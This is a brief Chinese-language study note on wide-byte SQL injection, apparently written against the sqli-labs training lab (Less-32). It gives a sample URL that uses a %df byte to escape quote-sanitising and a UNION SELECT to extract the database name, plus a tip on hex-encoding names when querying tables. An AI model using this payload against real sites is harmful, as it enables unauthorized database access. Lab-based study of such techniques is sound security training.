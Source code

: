 ## 宽字节注入

## `%df`逃逸

 - 样例：`http://10.4.77.54/sqlilabs/Less-32/?id=-1%df' union select    1,database(),3%23`

### 查新表名

 - ...... from '数据库名'  '数据库名' 要用十六进制编码